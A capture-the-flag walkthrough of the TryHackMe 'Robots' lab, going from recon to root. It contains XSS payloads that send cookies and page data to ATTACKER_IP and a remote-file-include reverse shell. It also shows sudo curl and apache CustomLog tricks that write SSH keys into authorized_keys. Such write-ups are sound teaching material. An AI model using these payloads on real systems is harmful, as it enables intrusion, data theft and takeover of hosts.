

# Robots THM walk-through (https://tryhackme.com/room/robots)

## Recon
Portscan reveals 3 open ports, 22, 80, and 9000.
```sh
rustscan -a robots.thm --ulimit 5000 -r 1-65535 --
 -sV
```


Root path at http://robots.thm/ and http://robots.thm:9000 result in a 403 status. I used ffuf for seeing if it could find interesting endpoints. Fuzzing robots.thm:9000 didn't result in any valid path.

```sh
ffuf -u http://robots.thm/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt
```

The robots.txt file contains some paths to check
```
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
```
Only the `/harm/to/self` path works and displays an interesting page.

Further fuzzing the `/harm/to/self` path reveals the following output


First step is to register a user and see where it takes.

Following the rule we use the MD5 hash of the username used with day and month used to register.
```sh
echo -n 'test0101' | md5 # 209df2e8fa7a3e08b4ef1ce0914c40f1
```
After logging in, we get the following page


Remember, there is a message that says an admin monitors new users on the signup page. So, it probably is some sort of automated script that is run. In that case, XSS is interesting to check and since our username is reflected on the page after logging in, we can try to register a user with an XSS payload in it and see the output.

Registering a username `<script>alert("1")</script>`, we get 

The next part is to try and steal the admin user's session cookie by registering `<script>document.location.href='http://ATTACKER_IP?C='.concat(encodeURIComponent(document.cookie))</script>` user and set up a listener locally to see traffic from the server. This didn't work, because the cookie is an httponly cookie and javascript can't access it.

If we can't steal the cookie, we can try to exfiltrate data from the server (look into the PHP source code for example). Here is an interesting article about how it works: https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss

I set up a Golang server locally to serve javascript so that the admin executes it and try to see what i can get. Find the source code at `server/main.go`. After registering a user `<script src="http://ATTACKER_IP/f/exfiltrate.js"></script>` and logging-in, we get the following request from the server: 

Decoding the output, we get
```html
<!DOCTYPE html>
<html lang="en">
<head>

  <meta charset="utf-8">
  <title>Your page title here :)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <link rel="stylesheet" href="css/normalize.css">
  <link rel="stylesheet" href="css/skeleton.css">


</head>
<body>
  <div class="container">
  <div class="row">
    <div class="one-half column" style="margin-top: 25%">
      <h4>Test url</h4>
      <form action="admin.php" method="POST">
      <div class="six columns"> <label>url</label>
      <input type="text" name="url" placeholder="url"></div>
      <div><input name="submit" type="submit"></div>
      </form>
      </div>
  </div>
</div>
```

## Foothold

Looking into this, it looks like a URL checker service where it takes a URL and makes a request? To check what happens, i created another user (no need for this, i could replace the exfiltrate.js file), and it is `<script src="http://ATTACKER_IP/f/script.js"></script>` where i tried to make a request to myself and it worked.
Making a request to /test endpoint on my host, i get the following from the server. 

I tried file scheme to and got the /etc/password file's content which was useless as it didn't have any user other than root (Docker?). I also tried reading the source-code of admin.php (with the PHP, not just HTML) with `file:///var/www/html/harm/to/self/admin.php` which gave me 

 Finally, i used php filter wrapper `php://filter/read=convert.base64-encode/resource=admin.php` and that worked 

 Decoding it, i got the PHP source-code
 ```php
 <?php
include('config.php');
?>

<!DOCTYPE html>
<html lang="en">
<head>

  <meta charset="utf-8">
  <title>Your page title here :)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <link rel="stylesheet" href="css/normalize.css">
  <link rel="stylesheet" href="css/skeleton.css">


</head>
<body>
<?php

if(isset($_SESSION['logged_in']) && $_SESSION['logged_in']===true && $_SESSION['username']==='admin') {

 if(!isset($_POST['url']))  {
  ?>
  <div class="container">
  <div class="row">
    <div class="one-half column" style="margin-top: 25%">
      <h4>Test url</h4>
      <form action="admin.php" method="POST">
      <div class="six columns"> <label>url</label>
      <input type="text" name="url" placeholder="url"></div>
      <div><input name="submit" type="submit"></div>
      </form>
      </div>
  </div>
</div>
<?php
 } else {

  include($_POST['url']);
 }

} else {

?>


<div class="container">
Not authorized.
  </div>


</body>
</html>

<?php
}
?>
 ```
 It looks like the server just includes whatever input it gets, and it is possible to include a PHP file which the server will run. So, i changed my script.js file to include a PHP reverse-shell and started listening for a connection with `pwncat -l 4444`. Then i received a connection: I didn't find anything interesting on the server manually or using the linpeas.sh script. The only odd thing i found was a .dockerenv file at the root file path, and /etc/hosts includes an IP address that is odd `172.18.0.3	robots.thm robots` which shows this could be a container's IP address in a docker network. There is also a config.php file containing database credentials
 ```php
<?php
    $servername = "SRV_NAME";
    $username = "USERNAME";
    $password = "PASSWORD";
    $dbname = "DB_NAME";
// Get the current hostname
$currentHostname = $_SERVER['HTTP_HOST'];

// Define the desired hostname
$desiredHostname = 'robots.thm';

// Check if the current hostname does not match the desired hostname
if ($currentHostname !== $desiredHostname) {
    // Redirect to the desired hostname
    header("Location: http://$desiredHostname" . $_SERVER['REQUEST_URI']);
    exit();
}
ini_set('session.cookie_httponly', 1);

session_start();

?>
 ```
I couldn't log into the database, as mysql isn't available on the host and also the port isn't open looking into /proc/net/tcp.

But a PHP script worked (probably because of the server name specified, as docker containers can use container name as an IP address to reach one another in the network). Running the PHP script dumps the database content.
```sql
--- Dumping table: users ---
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` text NOT NULL,
  `password` text NOT NULL,
  `group` text NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`) USING HASH
) ENGINE=InnoDB AUTO_INCREMENT=4 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_uca1400_ai_ci;
INSERT INTO `users` VALUES ('1','admin','ADMIN_HASH','admin');
INSERT INTO `users` VALUES ('2','rgiskard','PASS_HASH','nologin');
INSERT INTO `users` VALUES ('3','<script src=\'http://ATTACKER_IP/f/script.js\'></script>','07fafdde887aaf620583d610d3bbbf83','guest');
```

## SSHing as rgiskard
The MD5 hash generated doesn't look like the one used to login. I used cyberchef to check what has changed. Putting the original hash creates a double hash which looks similar to the one in the database. 
Following this logic, we can guess, the other users hash used to get the final hash. I used the `main.go` script and found a match with the `rgiskard` user.

## Escalating to dolivaw
I got a shell using the original hash of rgiskard which is generated using MD5(username+DDMM). After getting a shell and issuing `sudo -l`, we get 

It looks like we can run curl as user `dolivaw` which can easily be abused by issuing multiple curl requests at the same time and writing to dolivaw's home directory:
```sh
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ -o /dev/null file:///tmp/id_rsa.pub -o /home/dolivaw/.ssh/authorized_keys
```
After that, SSHing into the user works 

## Escalating to root
It looks like we can start apache2 as root. The user.txt flag is also found in dolivaw's HOMEDIR. It is possible to start apache and make it use our own configuration file instead of the default one. 
The config file can be used to add a custom log sink and using that, we can write to the root user's HOMEDIR.
```sh
apache conf
ServerRoot "/tmp/apache2"
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
Listen 4444
ErrorLog /var/log/apache2/error.log
LogFormat "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCi34C7qsxrxSQ8DnPntlISY3WpWdJyQW3N7bh+nZd83N7QEBiKewt9eacSMMiDxEC7TMavlSs1kUWnb/LBvWJOae5Cij5Vt4D+83acEXQ/agdtYSfAmoc8sbnzKJAY7nZ8YJoMiDdD3v7PBHhQ12HzaRvgLz3cRQRBWJAvrC8/n6AQY9TrH/gO7ldQu5numfB15g7oXCg8dLvPD0Va+4pYd99sIfYnmieI0VemHX6m8Tp/BVEzOIR0paIJ03Tpun/dpG4yfAwuZ1tGdptiFG4v8zCxn80qABjMch4CzpIkbACGbAFEtxQ5Rbo4UBTAr5slfWkk+WHQJPIOsCQRsjL7 rgiskard@ubuntu-jammy" pub_key
CustomLog /root/.ssh/authorized_keys pub_key
```
Running the script as root and making a curl request to port 4444 results in a write to the .ssh/authorized_keys file in root user's HOMEDIR. 

Overall, an excellent room.